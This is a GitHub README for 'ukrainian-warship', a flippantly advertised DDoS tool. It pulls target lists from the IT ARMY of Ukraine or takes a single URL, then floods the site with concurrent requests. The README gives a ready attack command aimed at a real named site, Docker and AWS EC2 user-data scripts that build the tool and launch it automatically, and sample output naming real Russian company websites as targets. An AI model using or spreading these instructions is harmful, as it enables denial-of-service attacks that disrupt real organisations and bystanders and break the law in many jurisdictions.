 ```
 _   _ _              _       _               _    _                _     _       
| | | | |            (_)     (_)             | |  | |              | |   (_)      
| | | | | ___ __ __ _ _ _ __  _  __ _ _ __   | |  | | __ _ _ __ ___| |__  _ _ __  
| | | | |/ / '__/ _` | | '_ \| |/ _` | '_ \  | |/\| |/ _` | '__/ __| '_ \| | '_ \ 
| |_| |   <| | | (_| | | | | | | (_| | | | | \  /\  / (_| | |  \__ \ | | | | |_) |
 \___/|_|\_\_|  \__,_|_|_| |_|_|\__,_|_| |_|  \/  \/ \__,_|_|  |___/_| |_|_| .__/ 
                                                                           | |    
                                                                           |_|  go birrr  
```
**Too fat to fight? Still want to do your part?**<br> 
Then we have just what you need! Strap your self in to you very own Ukrainian Warship and take aim!

Ukrainian Warship features:
- Acquire targets directly form IT ARMY of Ukraine
- Automatically detects online targets
- Stolen code from popular https stress test tool
- The pockets of dead target will gown sunflowers
<br>
<br>

# Usage

There are two modes of attack, single target and auto. Unless a target is specified ukrainian-warship will start in auto.
Auto attack acquires targets from a central api and takes aim at those.
<br><br><br>
**Single target example:**
```
ukrainian-warship kill --target=https://tvzvezda.ru/ --workers=64
```
**--target=https://tvzvezda.ru/** the url you want to attack  
**--workers=64** number of workers specifies the number of concurrent calls to the URL
<br><br><br>
**Auto example:**
```
ukrainian-warship kill --workers=64
``` 
**--workers=64** number of workers specifies the number of concurrent calls for each URL
# Install

##### Docker
```bash
docker pull sunflowerpockets/ukrainian-warship:latest
docker run -ti --rm sunflowerpockets/ukrainian-warship:latest
```

##### AWS EC2 User Data for Ubuntu Server 20.04 LTS
```bash
#!/bin/bash

apt update -y
apt upgrade -y
cd root
curl -OL https://go.dev/dl/go1.17.7.linux-amd64.tar.gz
tar -C /usr/local -xvf go1.17.7.linux-amd64.tar.gz
export PATH=$PATH:/usr/local/go/bin
git clone https://github.com/seedpockets/ukrainian-warship.git
cd ukrainian-warship/
mkdir bin
go build -ldflags "-s -w" -o /root/ukrainian-warship/bin/ukrainian-warship
chmod +x /root/ukrainian-warship/bin/ukrainian-warship
/root/ukrainian-warship/bin/ukrainian-warship kill > /dev/null
```

##### Ubuntu Server 20.04 LTS
```bash
#!/bin/bash

sudo apt update -y
sudo apt upgrade -y
curl -OL https://go.dev/dl/go1.17.7.linux-amd64.tar.gz
sudo tar -C /usr/local -xvf go1.17.7.linux-amd64.tar.gz
echo export PATH=$PATH:/usr/local/go/bin >> ~/.profile
source ~/.profile
git clone https://github.com/seedpockets/ukrainian-warship.git
cd ukrainian-warship/
mkdir bin
go build -ldflags "-s -w" -o bin/ukrainian-warship
chmod +x bin/ukrainian-warship
bin/ukrainian-warship kill    
```

Example output:
```
 Updates targets every 5 min...


Target
_________________________________________________________
https://www.nornickel.com/
https://rmk-group.ru/ru/
https://www.evraz.com/ru/
https://nangs.org/
https://www.metalloinvest.com/
https://www.polymetalinternational.com/ru/
https://www.sibur.ru/
https://www.uralkali.com/ru/
https://www.tmk-group.ru/
Total:  10
⣻
```